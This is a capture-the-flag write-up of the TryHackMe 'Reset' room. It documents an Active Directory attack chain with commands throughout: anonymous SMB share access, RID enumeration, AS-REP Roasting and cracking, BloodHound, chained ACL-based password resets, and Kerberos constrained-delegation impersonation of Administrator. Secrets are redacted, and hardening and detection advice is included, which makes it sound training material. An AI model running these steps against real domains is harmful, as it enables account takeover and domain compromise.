

> **Room:** [TryHackMe — Reset](https://tryhackme.com/room/resetui)  
> **Difficulty:** Hard · **Completed:** 30 October 2026 · **Author:** Kossi Richard Allado (allakori)  
> **Lab domain:** `thm.corp` · **Host:** `HAYSTACK` / `haystack.thm.corp` · **Lab IP during my session:** `10.128.171.57`  
> **Sensitive values:** Passwords, cracked hashes and flag contents are **not published**.

## 0. Introduction: what this write-up documents

On **30 October 2026**, I completed **Reset**, an Active Directory challenge marked **Hard** on TryHackMe. Ironically, once I understood its permissions graph, it felt like **the easiest Active Directory room I had tackled so far**.

This is my technical reconstruction from the commands and outputs I retained during that session, not a claim that I have a perfect unbroken terminal recording. I have therefore marked three kinds of evidence throughout:

- **Recorded:** I preserved the actual command or its output from my session. Where a command originally contained a password, only that argument is replaced with a variable or `[REDACTED]`.
- **Reconstructed command:** Equivalent syntax for an operation I performed, but not a verbatim command I can prove I typed.
- **Observed outcome:** My retained output establishes that the step worked; any omitted intermediate activity is called out explicitly.

This distinction matters. A useful pentest report should help readers understand both **the exploit mechanics** and **the reliability of the evidence**.

### Attack chain overview

Here is the actual progression I documented, with no secrets exposed:



**Important nuance:** My preserved initial SMB-document evidence does not demonstrate every step by which I derived the AS-REP target list. I do **not** present a third-party foothold technique as my own when I do not have its original terminal evidence.

## 1. Reconnaissance — identify the domain controller

I started with service enumeration against the lab-provided IP. The **observed open ports** in the retained scan were:

| TCP port | Service / role | Why it mattered |
| --- | --- | --- |
| 53 | DNS | Windows domain name resolution |
| 88, 464 | Kerberos / kpasswd | Domain authentication and credential policy |
| 135, 139 | RPC / NetBIOS | Windows remote procedure and discovery interfaces |
| 389 | LDAP | Domain objects and identities |
| 445 | SMB | Shared files, authentication and share permissions |
| 593 | RPC over HTTP | Additional Windows RPC surface |
| 636 | LDAPS-facing endpoint | TLS/LDAP surface; scan result requires interpretation |
| 3268, 3269 | Global Catalog | Directory queries |
| 3389 | RDP | Remote desktop, not proof that a user may log in |
| 5985 | WinRM / HTTP | Remote PowerShell administration |

The host identified itself as **HAYSTACK** in the **THM.CORP** domain. The environment was clearly Windows/Active Directory.

### Nmap — reproducible command

The *specific full original scan invocation* was not preserved; the following reproduces the relevant discovery approach:

```bash
# Reconstructed equivalent — the IP is from my session, not a permanent room IP.
nmap -Pn -sV -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5985 \
  10.128.171.57
```

**Takeaway:** An open port is a lead, not a vulnerability. For this machine, SMB, Kerberos and LDAP were more useful investigative starting points than treating every service as independently exploitable.

## 2. SMB: anonymous access and onboarding material

The first useful finding was that **the `data` share was accessible without valid domain credentials**. That made its contents worth reviewing before trying more aggressive tests.

### 2.1 Connect to the share

**Recorded command — 30 October 2026:**

```bash
smbclient //10.128.171.57/data -N
```

Here, `-N` tells `smbclient` not to prompt for a password. I then explored the available files and found an `onboarding` directory containing a PDF with a randomized filename.

**Recorded file-listing detail (other entries omitted):**

```text
x5oa55w5.0vj.pdf    3032659 bytes
```

A readable onboarding document is not automatically a critical vulnerability. The decisive question is **what information it contains and who can read it**.

### 2.2 Download and inspect the onboarding PDF

This part is now grounded in my **30 October 2026 SMB session**, not just a generic illustration. I kept the exact commands and redacted the one sensitive value in the extracted document.

**Recorded SMB commands — from the anonymous connection:**

```console
$ smbclient //10.128.171.57/data -N
smb: \\> cd onboarding
smb: \\onboarding\\> prompt off
smb: \\onboarding\\> mget *
```

`cd onboarding` enters the directory discovered in the share. `prompt off` disables confirmation for each file and `mget *` downloads the files in that directory. The precise full download progress lines were not retained; the commands and the PDF filename were.

**Relevant directory entry from the original listing (other entries omitted):**

```text
x5oa55w5.0vj.pdf    3032659 bytes
```

After downloading the PDF, I extracted its text:

**Recorded terminal command:**

```console
$ pdftotext x5oa55w5.0vj.pdf -
```

The trailing `-` sends extracted text to standard output. That makes it possible to inspect the document without modifying its contents or creating a new text file.

**Extracted PDF text — selected excerpt, original spelling retained, password redacted:**

```text
The Art of Effective User Onboarding
...
Example Email

Subject: Welcome to Reset
Dear LILY ONEILL,

The initial passowrd is: [REDACTED]

Best regards,
The Reset Team
...
```

**Why these specific lines matter:**

- `Subject: Welcome to Reset` identifies the document as an onboarding example/message rather than a system banner.
- `Dear LILY ONEILL` associates the credential-like instruction with an identifiable account.
- `The initial passowrd is: [REDACTED]` is the sensitive evidence. The typo **passowrd** is present in the original PDF; I have not corrected it to avoid changing the evidence.
- The rest of the PDF is omitted because it does not add to the finding. **No password, cracked hash or flag appears in this article.**

Crucially, **recovering a password-like string from a document is not the same as validating an account**. My later authentication checks and the separate AS-REP Roasting result must be evaluated on their own merits; I do not claim that the PDF password provided the eventual privileged access.

### 2.3 Why this output matters

The interesting part is not the PDF filename or the `pdftotext` command alone. The output answers a concrete security question:

1. **Exposure:** an onboarding document was readable from a share accessible without a domain password.
2. **Sensitive content:** the extracted text associated an identifiable domain user, `LILY_ONEILL`, with an initial-password instruction.
3. **Risk:** if a real, valid credential is placed in such a document, an unauthorized reader could attempt to use it. This is an **information-exposure finding**, not automatically proof of administrative access.

**Important validation limit:** Finding a password in an onboarding PDF did not mean that it worked as a domain-user credential. I tested the account and documented the result below, then moved to Kerberos account enumeration.

In a professional report, this distinction would be explicit:

| Evidence | Conclusion |
| --- | --- |
| Anonymous/no-password SMB connection succeeds | The share can be reached without supplying a domain password |
| PDF contains `The initial passowrd is: [REDACTED]` | Credential-like material is exposed in the document |
| SMB test as `LILY_ONEILL` returns `(Guest)` | Guest-mapped SMB access is **not** proof of a valid domain-user session |
| LDAP attempt returns `Connection reset by peer` | LDAP authentication was not established; the error does not definitively indicate a wrong password |
| AS-REP Roasting reveals `TABATHA_BRITT` and subsequent SMB authentication succeeds | A **separately recovered, validated** domain account enabled the later AD enumeration and ACL assessment |

**Remediation:** Remove plaintext credentials from onboarding templates; prevent unauthenticated reading of sensitive shares; provide initial secrets via an appropriate secure enrollment channel; rotate exposed passwords; and verify file-level permissions, not just share-level access.

### 2.4 Testing the onboarding account: why I did not continue with LILY_ONEILL

The PDF was a useful **information-disclosure finding**, but I still needed to check whether the credentials provided genuine access. I tested the named account with NetExec against SMB and LDAP. The historical results below come from my **30 October 2026** session; the password is replaced with `[REDACTED]`.

**SMB credential test — command reconstructed from the retained test context:**

```bash
# The password supplied to NetExec was the value found in the onboarding PDF.
# Its literal value has been removed from this write-up.
nxc smb 10.128.171.57 -u 'LILY_ONEILL' -p '[REDACTED]' -d thm.corp
```

**SMB result — original relevant line with only the password redacted:**

```text
SMB  10.128.171.57  445  HAYSTACK  [+] thm.corp\LILY_ONEILL:[REDACTED] (Guest)
```

The crucial detail is **`(Guest)`**. NetExec reported a guest-mapped SMB context, **not a confirmed authenticated session as `THM.CORP\LILY_ONEILL`**. In other words, I could not use this output to claim that the password from the PDF was a valid domain credential. The plus sign by itself was not enough: the **security context** mattered.

I also tried LDAP with the same account.

**LDAP credential test — equivalent sanitized syntax; the precise historical invocation was not retained:**

```bash
nxc ldap 10.128.171.57 -u 'LILY_ONEILL' -p '[REDACTED]' -d thm.corp
```

**LDAP result — relevant error from my recorded output:**

```text
LDAP  10.128.171.57  389  HAYSTACK  [-] Error connecting to the domain
                                      Error: [Errno 104] Connection reset by peer
```

**Interpretation:** The LDAP connection was reset by the peer. This did **not** demonstrate successful LDAP authentication, but neither did it prove conclusively that the password was incorrect. A transport-level reset can have several explanations, so it would be wrong to label this simply as `invalid credentials`.

**Decision point — why I pivoted:** I had extracted a potentially sensitive password from a publicly readable document, but I did **not** have reliable authenticated domain access through `LILY_ONEILL`. Rather than building the rest of the attack on an unverified credential, I continued identity enumeration and investigated Kerberos pre-authentication weaknesses. That led to the AS-REP Roasting of **`TABATHA_BRITT`**. Its recovered password was subsequently **validated against SMB**, giving me a reliable account for further Active Directory enumeration and ACL analysis.

> **Key lesson:** A disclosed password is a lead, not a foothold. Always distinguish a guest-mapped SMB connection, a transport error, and a successfully authenticated domain identity.

---

## 3. From domain usernames to AS-REP Roasting

The onboarding PDF exposed an initial-password instruction, but my SMB test of **LILY_ONEILL** was mapped to **Guest**, and the LDAP connection was reset. I could not honestly treat that credential as a confirmed foothold. The next productive stage was to identify domain users and test whether any account could be AS-REP Roasted.

### 3.1 Where does `users.txt` come from?

**Important distinction:** My retained 30 October terminal excerpt proves the later John the Ripper result for **TABATHA_BRITT**, but it does **not** preserve the command I originally used to enumerate usernames or create a file named `users.txt`. I cannot label an invented RID enumeration transcript as my own.

For a reader reproducing this authorized lab, **RID brute-force over SMB is a workable way to build that list**. Independent walkthroughs of the same room demonstrate this route. The following is a **reproducible alternative**, not a recovered command from my terminal.

**Step A — Enumerate domain identities:**

```bash
TARGET=10.128.171.57
nxc smb "$TARGET" -u 'Guest' -p '' --rid-brute 2000 | tee rid_enum.txt
```

- `-u 'Guest' -p ''` requests a guest-style SMB connection, rather than pretending that the password exposed in the onboarding PDF was accepted for domain access.
- `--rid-brute 2000` asks NetExec to test domain RIDs in that range to discover names. A `SidTypeUser` entry represents a user; `SidTypeGroup` is **not** a user for the next step.
- `tee rid_enum.txt` keeps the complete output for review. The filename is arbitrary; the important part is retaining the output before parsing it.

**Illustrative output structure — NOT a verbatim snapshot from my 30 October session:**

```text
SMB  10.128.171.57  445  HAYSTACK  <RID>: THM\EXAMPLE_USER (SidTypeUser)
SMB  10.128.171.57  445  HAYSTACK  <RID>: THM\TABATHA_BRITT (SidTypeUser)
SMB  10.128.171.57  445  HAYSTACK  <RID>: THM\Domain Users (SidTypeGroup)
```

The `<RID>` placeholders are **illustrative**, not historical values. The useful parts are the `DOMAIN\username` format and the `(SidTypeUser)` suffix; these let us extract only user identities.

**Step B — Extract actual usernames into `users.txt`:**

```bash
grep 'SidTypeUser' rid_enum.txt \
  | sed -nE 's/.*\\([^\\[:space:]]+)[[:space:]]+\(SidTypeUser\).*/\1/p' \
  | sort -u > users.txt

wc -l users.txt
head users.txt
grep -x 'TABATHA_BRITT' users.txt
```

- `grep` keeps user objects and excludes group/computer objects.
- `sed` removes the RID, domain prefix and NetExec annotations, leaving a **username on each line**.
- `sort -u` removes duplicates.
- `wc`, `head` and `grep -x` verify the resulting file rather than assuming it is correctly formatted.

**Expected file format (example, not claimed as a complete historical list):**

```text
ERNESTO_SILVA
LEANN_LONG
TABATHA_BRITT
```

**Why this matters:** `users.txt` is **not** TryHackMe's `user.txt` flag. The former is a locally created **input list of account names** for GetNPUsers; the latter is an objective file found later in the challenge.

**If the enumeration returns `STATUS_ACCESS_DENIED` or no user lines:** first confirm the identity and the target with `nxc smb "$TARGET" -u 'Guest' -p '' --shares`. Do not fabricate a list or assume guest access worked. Review the actual SMB context and any permitted user-discovery techniques available in your lab. If you have legitimately discovered one specific username, GetNPUsers also supports querying that identity directly (see below).

### 3.2 Request AS-REP responses with Impacket

Kerberos **pre-authentication** normally prevents arbitrary account requests from yielding material suitable for offline password guessing. If a user has the **Do not require Kerberos preauthentication** setting, an unauthenticated requester may be able to obtain an encrypted AS-REP response. Whether that yields a password depends on password strength and the available wordlist.

**Reconstructed, reproducible command using the list produced above:**

```bash
impacket-GetNPUsers 'thm.corp/' \
  -dc-ip "$TARGET" -no-pass -request \
  -usersfile users.txt -format john \
  -outputfile asrep.hashes

test -s asrep.hashes && echo "[+] AS-REP output saved" || echo "[-] No AS-REP hashes saved"
```

- `-usersfile users.txt` supplies the accounts **we enumerated and extracted**; it does not discover them by itself.
- `-no-pass` makes the request without a previously authenticated password.
- `-request` requests roastable material from the KDC.
- `-format john` generates a format usable by John the Ripper.
- `-outputfile asrep.hashes` creates the input for the cracking step; `test -s` checks that it actually contains data.

**Representative result types (not my exact original GetNPUsers output):**

```text
[-] User <NON_ROASTABLE_ACCOUNT> doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$...TABATHA_BRITT@THM.CORP: [AS_REP_MATERIAL_REDACTED]
```

The first line is not a failure of the entire assessment: it means that account does not allow this technique. The second type of result is what makes offline analysis possible. **The original hash bytes must not be published.**

If you only have **one username** and no valid list, the tool can instead check that particular account:

```bash
# Alternative only, once the target username is legitimately known.
impacket-GetNPUsers 'thm.corp/TABATHA_BRITT' \
  -dc-ip "$TARGET" -no-pass -request -format john
```

This direct-query alternative is useful diagnostically; it does **not** establish how I originally identified TABATHA_BRITT.

### 3.3 Crack the response — recorded John command

Unlike the initial username-discovery and GetNPUsers steps, the John command **was retained** in my 30 October session:

```bash
john --format=krb5asrep \
  --wordlist=/usr/share/wordlists/rockyou.txt \
  asrep.hashes
```

**Recorded success, shortened and redacted:**

```text
[REDACTED PASSWORD]  ($krb5asrep$23$TABATHA_BRITT@THM.CORP)
```

This established that a password for **TABATHA_BRITT** could be recovered offline. The file `asrep.hashes` existed at the time of cracking, but the retained record does **not** prove which exact username-enumeration command generated the earlier input.

If John reports `No password hashes loaded`, check that `asrep.hashes` is non-empty, that the capture format matches `--format=krb5asrep`, and that you did not accidentally save command output or error lines in place of hash material.

### 3.4 Validate credentials and choose the next pivot

A cracked password is not yet proof of interactive access. Here is how I re-express my successful NetExec check without publishing the secret:

```bash
read -rsp 'TABATHA_BRITT password: ' TABATHA_PASS; echo
nxc smb "$TARGET" \
  -u TABATHA_BRITT -p "$TABATHA_PASS" -d thm.corp
```

**Observed:** SMB authentication succeeded. An attempted WinRM session using that account did **not** establish a usable shell.

This tells us something valuable:

| Test | What it establishes |
| --- | --- |
| AS-REP response returned | Account is eligible for offline password testing |
| John reports a recovered password | Offline guess succeeded |
| NetExec SMB authenticates | Credentials work for the tested SMB authentication context |
| WinRM login fails | No authorized interactive shell was established **by that test** |
| BloodHound later finds AD object rights | Other privileged operations may still be possible without a shell |

**Decision:** Instead of assuming that TABATHA_BRITT was useless because WinRM failed, I used the **validated domain credentials** to assess directory permissions with BloodHound. That is the bridge into the next stage of the write-up.

## 4. BloodHound: turn domain rights into a testable path

With an authenticated domain identity, I collected Active Directory relationship information using BloodHound-Python.

### Recorded BloodHound collection, password redacted

This is the original tool/argument structure from my session; only the inline password is replaced with the shell variable already defined above:

```bash
bloodhound-python \
  -u TABATHA_BRITT -p "$TABATHA_PASS" \
  -d thm.corp -ns 10.128.171.57 -c all
```

The **recorded collection output** reported:

```text
Found 42 users
Found 55 groups
Found 3 gpos
Found 222 ous
Found 19 containers
Found 0 trusts
```

These counts describe collected directory objects; they are **not** counts of vulnerabilities or compromised accounts.

### How to use the BloodHound collection

My recorded command produced domain information for **42 users**, **55 groups**, **3 GPOs**, **222 OUs**, **19 containers** and **0 trusts**. The counts alone do not reveal the escalation path.

For readers who get stuck here, the practical workflow is:

1. **Confirm collection succeeded** and locate the resulting JSON/ZIP files in the working directory. The exact output filenames depend on collector version and whether `--zip` was specified.
2. **Import those results** into your installed BloodHound edition (the import interface differs between legacy BloodHound and BloodHound CE).
3. Search for **TABATHA_BRITT**, mark it as the currently controlled identity and inspect its **outbound object-control relationships**.
4. Follow each relevant edge **one object at a time**. Check the edge type and target identity; do not guess that every connection implies Domain Admin rights.
5. Verify the resulting actions in the lab and record which identity is controlled after each step.

**Troubleshooting:** If the collection reports a domain-controller DNS error, check name resolution before inventing other attack paths:

```bash
getent hosts haystack.thm.corp
dig @10.128.171.57 haystack.thm.corp +short
```

You can provide the appropriate lab domain mapping in your local resolver/hosts configuration if necessary. A working SMB connection by IP does **not** guarantee that BloodHound's LDAP, Kerberos and DNS requests will resolve the correct FQDN.

**Why the graph is useful here:** TABATHA_BRITT did not need to become a local Administrator through WinRM first. Its AD permissions provided a different, **directory-level** path forward.


BloodHound's real value is in relations between **principals**, **objects**, and **effective permissions**. The path I identified was:

```text
TABATHA_BRITT
    |
    | GenericAll
    v
SHAWNA_BRAY
    |
    | ForceChangePassword
    v
CRUZ_HALL
    |
    | ForceChangePassword
    v
DARLA_WINTERS
    |
    | Kerberos constrained delegation
    v
CIFS service on haystack.thm.corp
```

### Why these edges matter

**GenericAll:** The principal can exercise very broad control over the target AD object. If a user object is controlled in this way, the attacker may be able to modify security-relevant properties, including the credential state, depending on the effective permission and protections.

**ForceChangePassword:** This delegated right can permit a principal to **reset the target account's password without knowing its previous password**. It is distinct from knowing or cracking that password.

**Constrained delegation:** A trusted service account may request tickets to specific downstream SPNs on behalf of another identity. Compromise of the account that controls this configuration can cross a particularly sensitive identity boundary.

The key mistake would be to treat every BloodHound edge as automatically exploitable. Here, I **validated the sequence** by changing the relevant test-account passwords and authenticating with each new identity.

## 5. Chaining password-reset rights

My October terminal session contained three successful password-reset operations using Samba's `net rpc password` command:

1. **TABATHA_BRITT → SHAWNA_BRAY**, enabled by `GenericAll`.
2. **SHAWNA_BRAY → CRUZ_HALL**, using `ForceChangePassword`.
3. **CRUZ_HALL → DARLA_WINTERS**, using `ForceChangePassword`.

Below are the **same operation patterns**, with passwords replaced by variables. The actual commands I ran used inline secrets; I do not republish them.

### 5.1 TABATHA_BRITT controls SHAWNA_BRAY

```bash
# Prompt for a password without exposing it in this write-up.
read -rsp 'New lab password for SHAWNA_BRAY: ' SHAWNA_PASS; echo

net rpc password 'SHAWNA_BRAY' "$SHAWNA_PASS" \
  -U "THM.CORP/TABATHA_BRITT%$TABATHA_PASS" \
  -S haystack.thm.corp
```

**Expected behavior and observed outcome:** The command succeeded in my session; the newly controlled identity could then be used in authenticated tests.

### 5.2 SHAWNA_BRAY controls CRUZ_HALL

```bash
read -rsp 'New lab password for CRUZ_HALL: ' CRUZ_PASS; echo

net rpc password 'CRUZ_HALL' "$CRUZ_PASS" \
  -U "THM.CORP/SHAWNA_BRAY%$SHAWNA_PASS" \
  -S haystack.thm.corp
```

**Observed outcome:** The operation worked, and later credentials for **CRUZ_HALL** were successfully validated.

### 5.3 CRUZ_HALL controls DARLA_WINTERS

```bash
read -rsp 'New lab password for DARLA_WINTERS: ' DARLA_PASS; echo

net rpc password 'DARLA_WINTERS' "$DARLA_PASS" \
  -U "THM.CORP/CRUZ_HALL%$CRUZ_PASS" \
  -S haystack.thm.corp
```

**Observed outcome:** This gave me control of the identity **DARLA_WINTERS**, the key account for the next phase.

### Why this technique worked

Each step was authorized by an **overly permissive AD object relationship**. No previous target-account password was needed for a delegated reset. The escalated capability came from the *ACL*, not from cracking three additional hashes.

For each reset, validating SMB authentication with the resulting identity is more meaningful than merely assuming the password changed because a command returned without a visible exception.

**How to verify those password resets without publishing the passwords:**

```bash
# Run after each password reset, supplying the new password from that step.
nxc smb "$TARGET" -u SHAWNA_BRAY -p "$SHAWNA_PASS" -d thm.corp
nxc smb "$TARGET" -u CRUZ_HALL -p "$CRUZ_PASS" -d thm.corp
nxc smb "$TARGET" -u DARLA_WINTERS -p "$DARLA_PASS" -d thm.corp
```

A successful authentication for the **specific next identity** is the key observation. The precise full SMB output for all three checks is not retained, so I do **not** manufacture three identical “success” banners. If authentication fails, verify which account performed the reset, the edge's effective permission, any password-policy constraints and whether the target was a protected object.


**A practical lesson:** If a domain user has no direct route to an administrator group, inspect the **transitive rights graph**. Delegated administration can unintentionally connect several apparently low-privilege identities to a high-impact service account.

## 6. Kerberos constrained delegation — S4U2Self and S4U2Proxy

Once I controlled **DARLA_WINTERS**, I investigated the delegated service access represented in the AD data.

### What's happening technically?

For a properly configured constrained-delegation scenario, the S4U extensions let an eligible service obtain a service ticket for a user:

- **S4U2Self:** the service requests a ticket to itself representing the named user, within the applicable Kerberos rules.
- **S4U2Proxy:** the service uses the prior ticket to request a ticket for a permitted downstream service principal.
- **SPN:** the service principal name specifies which service the final ticket is intended for.

This matters because **a service ticket is not the user's password**. The ticket can confer access to a particular service without the attacker ever learning that user's secret.

### Impacket getST — actual successful command, secret redacted

This command was **executed in my session**. Only the password argument is substituted:

```bash
impacket-getST \
  -spn 'cifs/haystack.thm.corp' \
  -impersonate Administrator \
  -dc-ip 10.128.171.57 \
  "thm.corp/DARLA_WINTERS:$DARLA_PASS"
```

**The actual command output included the following lines:**

```text
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_haystack.thm.corp@THM.CORP.ccache
```

These are the decisive facts:

1. The operation progressed through **both S4U stages**.
2. The requested impersonated identity was **Administrator**.
3. The resulting ticket was for the **CIFS** service on the target host.
4. Impacket wrote a local **Kerberos cache** file.

**What this does not prove:** I did not recover the Administrator's plaintext password. My next step was to prove the actual scope of access by using the ticket.

## 7. Kerberos SMB access and verification of both objectives

### 7.1 Set the ticket cache

This exact export command was recorded in my terminal:

```bash
export KRB5CCNAME="$PWD/Administrator@cifs_haystack.thm.corp@THM.CORP.ccache"
```

`KRB5CCNAME` tells Kerberos-aware clients which cache to consult. It is easy to confuse a valid ticket with a usable ticket: a wrong cache path, host name or SPN can make the final command fail even if ticket issuance succeeded.

### 7.2 Connect with Impacket SMBClient

The next command is **verbatim from my successful session**:

```bash
impacket-smbclient -k -no-pass -target-ip 10.128.171.57 \
  'thm.corp/Administrator@haystack.thm.corp'
```

Why these options?

- `-k`: use Kerberos authentication.
- `-no-pass`: do not prompt for or supply an account password; rely on existing Kerberos material.
- `-target-ip`: specify the lab IP while preserving the DNS/SPN host name in the target identity.

A successful SMB connection demonstrates that the **CIFS service accepted the ticket**. It should not be described as a full Administrator interactive shell or as knowledge of the Administrator password.

### 7.3 Inspect the administrative share

My retained interaction then navigated through the SMB client:

```text
shares
use C$
cd Users
cd Administrator
cd Desktop
cat root.txt
```

**Observed:** The room's root objective was present in the Administrator Desktop location and was successfully retrieved.

I also reached the `automate` user profile and verified `user.txt`. **Neither value is included here.**

```text
Objective 1: user.txt — VERIFIED (contents withheld)
Objective 2: root.txt — VERIFIED (contents withheld)
```

This gave me a concrete, validated result beyond graph analysis or ticket issuance: the delegated authentication path provided access to a sensitive administrative file share.

## 8. Troubleshooting the complete lab workflow

| Where you are stuck | Check this first | Next justified action |
| --- | --- | --- |
| SMB `Data` cannot be listed | Is the IP current? Does the attempted anonymous/Guest security context have access? | Enumerate shares, distinguish Guest from real domain authentication |
| `LILY_ONEILL` has a password but SMB shows `(Guest)` | Was the account truly authenticated, or only guest-mapped? | Do not claim a foothold; continue domain-user discovery |
| `users.txt` does not exist | The file must be **built** from an enumeration result | Run a permitted RID enumeration and parse only `SidTypeUser` entries |
| `users.txt` is empty | Did RID enumeration return `SidTypeUser` entries? Does the parsing pattern match? | Inspect `rid_enum.txt` directly; do not continue with an empty list |
| GetNPUsers returns no usable hashes | Did the query include real usernames? Is the KDC reachable? | Verify `wc -l users.txt`, domain and DC IP; test a known eligible account |
| John loads no hashes | Is `asrep.hashes` non-empty and actually in John format? | Inspect the safe metadata and regenerate the capture if necessary |
| TABATHA works on SMB but not WinRM | Are credentials valid but remote-shell permissions absent? | Continue **directory rights analysis** rather than guessing a shell exploit |
| BloodHound collects nothing | Is lab DNS working? Was the correct domain/controller selected? | Fix name resolution and rerun authorized collection |
| A password reset appears to succeed but the next identity fails | Does the caller really have the displayed ACL edge? Is the password compliant? | Check the specific relationship and validate that account separately |
| `getST` does not save a ticket | Is the SPN permitted for delegation? Is the user eligible to be impersonated? | Inspect Impacket's exact error and delegation configuration |
| Ticket saved but SMB fails | Is `KRB5CCNAME` pointing to the new `.ccache`? Does the target hostname match the SPN? | Check `klist`, FQDN resolution and the service identity |
| File-access objective is unavailable | Did the ticket grant access to this **particular service** and share? | Inspect accepted identity and share rights; never infer full Administrator logon from ticket issuance |

**No fabricated evidence:** This table is a troubleshooting guide based on the technologies and failures involved, not a claim that I personally encountered every error listed.

## 9. Root-cause analysis

The point of a write-up is not simply that a series of commands worked. It should explain the organizational and technical conditions that allowed them to work.

| Finding | Root cause | Security impact |
| --- | --- | --- |
| Excessive exposure of onboarding material | Shared files reachable outside the intended user population | Credentials or operational details may leak |
| AS-REP Roastable account with a weak password | Kerberos pre-authentication exception and inadequate password strength | Offline password recovery against a domain identity |
| Overly permissive AD object ACLs | Excessive `GenericAll` and delegated password-reset authority | Transitive control of additional identities |
| Sensitive constrained delegation | Delegation permissions assigned to an account reachable through the ACL chain | Service-ticket impersonation to sensitive service access |

These findings reinforce a central lesson: **security impact is compositional**. A single weak password might not provide remote shell access. Several rights that appear unimportant on their own can combine into a much more serious path.

## 10. Blue Team: hardening and detection

### Preventive controls

1. Remove initial credentials and other secrets from broadly accessible onboarding material; review SMB ACLs and guest/anonymous access.
2. Require Kerberos pre-authentication for normal user accounts and review exceptions; improve password quality.
3. Audit AD ACL assignments, especially `GenericAll`, `GenericWrite`, `WriteDACL` and `ForceChangePassword` on sensitive objects.
4. Reduce transitive administrative rights: investigate **who can reset an account that itself controls another privileged identity**.
5. Restrict Kerberos delegation to the minimum required SPNs and protect service accounts from unnecessary object-control permissions.
6. Review sensitive share permissions and service-account access, and retest each control after modification.

### Relevant detection hypotheses

The following Windows security events are **defensive telemetry recommendations**, **not** a claim that these log lines were collected in my lab session:

| Activity | Candidate telemetry | What analysts should correlate |
| --- | --- | --- |
| Unusual Kerberos requests | 4768, 4769 | Account baseline, source, ticket pattern |
| Password resets | 4724 | Initiator, target, time, delegated-right justification |
| AD object changes | 5136 where configured | Target DN, attribute modified, actor |
| AD permission changes | 4670 / directory auditing as applicable | Permission origin and effective security boundary |
| Share access | 5140, 5145 with auditing enabled | Sensitive paths, identity and read/write action |
| Privileged service access | Authentication and file-access logs | Ticket use, unexpected access to sensitive resources |

No single event is conclusive. Correlation across identity, Kerberos and file-access telemetry is far more useful than a rule that matches only one tool name.

## 11. What I would include in a professional pentest report

In a client-facing report, I would separate **the evidence, the root cause and the demonstrated impact**:

- **Scope:** authorized host(s), domain, time window and test identity.
- **Methodology:** service mapping, SMB inspection, credential validation and identity-permission analysis.
- **Evidence:** commands and relevant **redacted** output, screenshots, permissions and their context.
- **Exploitability:** prerequisites for each action, including the difference between authentication and authorization.
- **Impact:** exactly which service or administrative action the controlled identity enabled.
- **Remediation:** minimum necessary ACLs, account hardening, delegation restrictions.
- **Retest:** prove the unauthorized path no longer functions while legitimate delegated workflows remain operational.

### Evidence provenance

| Step | Status of my October 30 record |
| --- | --- |
| Lab completion and difficulty | **Recorded** |
| Host/domain/port observations | **Recorded** |
| Anonymous SMB and onboarding PDF | **Recorded** |
| Full original SMB download command | **Not preserved; equivalent shown** |
| `LILY_ONEILL` SMB `(Guest)` and LDAP connection reset | **Recorded; credential redacted, exact command syntax reconstructed** |
| Username list creation (`users.txt`) | **Original command/file not preserved; reproducible RID-enumeration method shown and explicitly marked as such** |
| Original AS-REP request command | **Not preserved; equivalent shown** |
| John crack of `TABATHA_BRITT` | **Recorded** |
| NetExec authentication; WinRM failure | **Recorded** |
| BloodHound collection and object counts | **Recorded** |
| Permission relationships | **Recorded** |
| Three `net rpc password` operations | **Recorded; credentials redacted** |
| `impacket-getST` S4U request and output | **Recorded; credential redacted** |
| `KRB5CCNAME` and Kerberos SMB client | **Recorded verbatim** |
| Both room objectives | **Verified; flag values withheld** |

## 12. Conclusion

Reset was rated **Hard**, but it became surprisingly straightforward once I followed the **Active Directory permission relationships** instead of searching endlessly for an unrelated exploit. The central sequence was:

**Kerberos credential recovery → ACL-based identity control → constrained delegation → service-specific Kerberos authentication → verified access.**

The strongest takeaway is broader than the room: a penetration tester should understand **why a permission exists, who can use it, and what boundary it crosses**. Successful pentesting is not a checklist of commands; it is a reproducible argument supported by evidence.

I completed both objectives in this authorized TryHackMe environment. **No plaintext passwords, cracked hashes or flag values have been published**.

---

**Room:** [TryHackMe Reset](https://tryhackme.com/room/resetui) · **Portfolio:** [ALLAKORI](https://allakori.github.io/) · **TryHackMe profile:** [allakori](https://tryhackme.com/p/allakori)

